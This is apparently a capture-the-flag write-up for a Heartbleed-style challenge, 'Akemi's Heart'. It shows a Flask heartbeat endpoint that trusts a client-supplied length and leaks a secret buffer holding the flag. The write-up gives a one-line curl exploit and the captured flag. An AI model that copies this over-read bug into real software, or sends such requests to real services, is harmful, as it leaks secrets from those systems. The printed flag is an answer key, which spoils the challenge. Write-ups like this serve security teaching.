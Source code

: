 # Akemi’s Heart

<img width="787" height="333" alt="Screenshot 2025-09-15 120024" src="https://github.com/user-attachments/assets/fce1f475-f0de-404b-8364-76c7ee4a7f4d" />

## Challenge

<img width="791" height="614" alt="Screenshot 2025-09-15 120250" src="https://github.com/user-attachments/assets/6da94418-e2b9-4f65-a8b2-abf3d54e0dba" />

A Flask app exposes `POST /heartbeat` that echoes your JSON:
```json
{"payload": "hi", "length": 5}
```

It always returns exactly length bytes. If your payload is shorter, it pads with a secret buffer `secret_blob`. That buffer is:

512 random bytes followed by the contents of `/flag.txt`

Code snippet: 

```python
# secret buffer = random junk + flag
secret_blob = secrets.token_bytes(512)
if os.path.exists("/flag.txt"):
    with open("/flag.txt", "rb") as f:
        secret_blob += f.read()

# heartbeat endpoint
data = request.get_json(force=True, silent=True)
payload_bytes = (data.get("payload", "")).encode()
length = int(data.get("length", 0))

extra_needed = length - len(payload_bytes)
if extra_needed <= 0:
    resp = payload_bytes[:length]
else:
    # BUG: trusts client `length`, pads with secret data
    resp = payload_bytes + secret_blob[:extra_needed]
return make_response(resp, 200, {"Content-Type": "application/octet-stream"})
```

## Solution
Exploit the trusted `length`: send a tiny (or empty) `payload` with a large `length`.
The server pads with `secret_blob`, and after the first 512 random bytes, the flag appears.

Notes:

- Any `length > 512 + len(payload)` works (e.g., 1024, 2048, 4096, 8192).
- Filter output for keywords like `GCTF`, `flag`, `ctf`.

```bash
curl -s http://host:port/heartbeat -H "Content-Type: application/json" -d '{"payload":"","length":8192}' | grep -iE "flag|ctf|gctf"
```

## Flag

```flag
GCTF25{aK4mI_H3ARTY_tl$SU3_saD_so_$AD_c1737cad162e}
```




